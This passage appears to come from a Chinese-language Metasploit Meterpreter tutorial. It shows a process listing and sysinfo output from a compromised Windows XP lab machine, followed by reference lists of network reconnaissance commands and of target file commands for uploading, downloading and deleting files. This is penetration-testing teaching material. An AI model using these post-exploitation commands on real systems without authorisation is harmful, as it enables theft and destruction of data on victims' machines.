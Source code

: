 ```
 860   672   vmacthlp.exe       x86   0        NT AUTHORITY\SYSTEM  C:\Program Files\VMware\VMware Tools\vmacthlp.exe
 876   672   svchost.exe        x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\svchost.exe
 944   672   svchost.exe        x86   0                             C:\WINDOWS\system32\svchost.exe
 1040  672   svchost.exe        x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\System32\svchost.exe
 1132  672   svchost.exe        x86   0                             C:\WINDOWS\system32\svchost.exe
 1196  672   alg.exe            x86   0                             C:\WINDOWS\System32\alg.exe
 1224  876   wmiprvse.exe       x86   0                             C:\WINDOWS\system32\wbem\wmiprvse.exe
 1236  672   svchost.exe        x86   0                             C:\WINDOWS\system32\svchost.exe
 1416  672   spoolsv.exe        x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\spoolsv.exe
 1428  608   conime.exe         x86   0        LIUYAZHUANG\lyz      C:\WINDOWS\system32\conime.exe
 1504  628   logon.scr          x86   0        LIUYAZHUANG\lyz      C:\WINDOWS\System32\logon.scr
 1680  1648  explorer.exe       x86   0        LIUYAZHUANG\lyz      C:\WINDOWS\Explorer.EXE
 1808  1680  vmtoolsd.exe       x86   0        LIUYAZHUANG\lyz      C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 1832  1680  ctfmon.exe         x86   0        LIUYAZHUANG\lyz      C:\WINDOWS\system32\ctfmon.exe
```

### 获取系统信息

```
meterpreter > sysinfo
Computer        : LIUYAZHUANG
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### 网络命令

- ipconfig/ifconfig：显示被渗透主机所连接的所有内部网络
- arp：显示所有和被渗透主机建立过连接的IP地址，这样可以获得更过关于目标邻近系统的信息
- netstat：显示当前所有正在使用端口以及运行在这些端口上的进程信息。

### 文件操作命令

```
pwd：查看当前的工作目录
cd：切换到目标文件夹
cd [目标文件夹]
mkdir：创建文件夹
mkdir [文件夹]
upload:将文件上传到目标系统
upload [本地文件] [目标系统路径]
edit:修改文件
edit [目标文件]
ls：列出目标主机指定目录中的文件
ls [目标文件夹]
rmr:删除目标系统上指定的文件夹
rmr [目标文件夹]
rm：删除目标系统上指定的文件
rm [目标文件]
download：从目标下载文件
download [目标文件] [本地路径]
```
